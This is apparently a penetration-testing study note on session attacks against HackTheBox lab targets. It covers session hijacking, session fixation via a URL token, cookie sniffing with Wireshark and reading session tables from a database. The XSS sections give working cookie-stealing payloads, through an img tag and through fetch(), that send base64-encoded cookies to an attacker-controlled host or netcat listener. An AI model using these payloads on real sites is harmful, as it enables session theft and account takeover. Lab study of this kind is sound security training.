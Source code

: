 # 📉 Session Attacks 1

## Session Hijacking

Here the attacker takes advantage of insecure session identifiers, finds a way to obtain them, and uses them to authenticate to the server and impersonate the victim

Let's imagine the following account of some target.

<figure><img src="../../../.gitbook/assets/image (1361).png" alt=""><figcaption></figcaption></figure>

We can see cookie named `auth-session`

As an attacker we somehow got access to the cookie's value, we can go in a new private window, navigate to the website and replace the current auth-session cookie's value with the one we got. Normally if we reload the page, we will be logged in as the target

## Session Fixation

Session Fixation occurs when an attacker can fixate a (valid) session identifier.

Here are the 3 stages of a Session Fixation attacks:

**Stage 1: Attacker manages to obtain a valid session identifier**

**Stage 2: Attacker manages to fixate a valid session identifier**

**Stage 3: Attacker tricks the victim into establishing a session using the abovementioned session identifier**

Let's got through the 3 steps more in depth:

**Part 1: Session fixation identification**

We will have some random URL with some token value

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN VALUE>
```

<figure><img src="../../../.gitbook/assets/image (1362).png" alt=""><figcaption></figcaption></figure>

So we see the cookie is the same as the token value

**Part 2: Session fixation exploitation attempt**

Let's open a new private windows and add our own token value, we will end up navigating to ->

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=IControlThisCookie
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (1363).png" alt=""><figcaption><p>same value once again</p></figcaption></figure>

We could send a URL similar to the above to a victim. If the victim logs into the application, we could easily hijack their session since the session identifier is already known (we fixated it).

Another way of looking for some fixation problems, let's say we got a cookie named `PHPSESSID, we could try http://insecure.exampleapp.com/login?PHPSESSID=AttackerSpecifiedCookieValue` and see if the specified cookie value is propagated to the application

## Obtaining Session Identifiers without User Interaction

We can obtain obtain session identifiers two main ways:

* without user interaction
* requiring user interaction

### via Traffic Sniffing

Traffic sniffing requires the attacker and the victim to be on the same local network. Then and only then can HTTP traffic be inspected by the attacker. It is impossible for an attacker to perform traffic sniffing remotely.

Let's go on our target website:

<figure><img src="../../../.gitbook/assets/image (1364).png" alt=""><figcaption><p>note <code>auth-session,</code> probably as a session identifier</p></figcaption></figure>

Now, we'll start wireshark on the local network:

```shell-session
sudo -E wireshark
```

Right-click "tun0" and then click "Start capture"

Now in a rivate window, we login to the app using knwon credentials with an account we created and look at the traffic:

<figure><img src="../../../.gitbook/assets/image (1365).png" alt=""><figcaption></figcaption></figure>

We don't forget the http filter, then we will need to filter everything out for any `auth-session` cookies with `Edit` -> `Find Packet`

<figure><img src="../../../.gitbook/assets/image (1366).png" alt=""><figcaption></figcaption></figure>

and when we find the packet we need we can copy the value like this:

<figure><img src="../../../.gitbook/assets/image (1367).png" alt=""><figcaption></figcaption></figure>

**Part 4: Hijack the victim's session**

and now if we go back to the not private window and change our current cookie value with the one we obtained through wireshark (remember to remove the `auth-session=` part)&#x20;

<figure><img src="../../../.gitbook/assets/image (1368).png" alt=""><figcaption></figcaption></figure>

And if we refresh we are now loggid in as the victim

### Post-Exploitation (Database Access)

When we have access to a database via, for example, SQL injection or identified credentials, we should always check for any stored user sessions.

<figure><img src="../../../.gitbook/assets/image (1369).png" alt=""><figcaption></figcaption></figure>

We can try to crack the hashes, but we also see the interesting session table ->

```sql
select * from all_sessions;
select * from all_sessions where id=3;
```

<figure><img src="../../../.gitbook/assets/image (1370).png" alt=""><figcaption><p>We could now authenticate as the user "Developer."</p></figcaption></figure>

## Cross-Site Scripting (XSS)

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

* Session cookies should be carried in all HTTP requests
* Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First let's create an account to look at functionalities ->

To craft our payload, it's good to use handlers like `onload` or `onerror` since they fire up automatically, if they're blocked, we can  use something like `onmouseover`.

```javascript
"><img src=x onerror=prompt(document.domain)>
```

`document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment.

and in the remaining fields, we can put the following:

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When we save we gor nothing poping on our screen, that's because we need to call the code with another functionality ->&#x20;

When we click on share:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to check if _HTTPOnly_ is off

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To steal a cookie in real world we can use [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or webhook.site

The payload would look somehing like:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

{% content-ref url="../../../red-team/technical-knowledge/web-application/xss-injection.md" %}
[xss-injection.md](../../../red-team/technical-knowledge/web-application/xss-injection.md)
{% endcontent-ref %}

Now let's say the victim clicks on our link, in our webhook or anything else, we should see our cookie pop and can use it to hijack session

### cookies via XSS (Netcat edition)

First we place the below payload in the _Country_ field of Ela Stienen's profile and click "Save."

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Then we launch netcat on port 8000

now we simulate what the victim would do and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com` since we control this public profile hosting a cookie-stealing payload

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

##
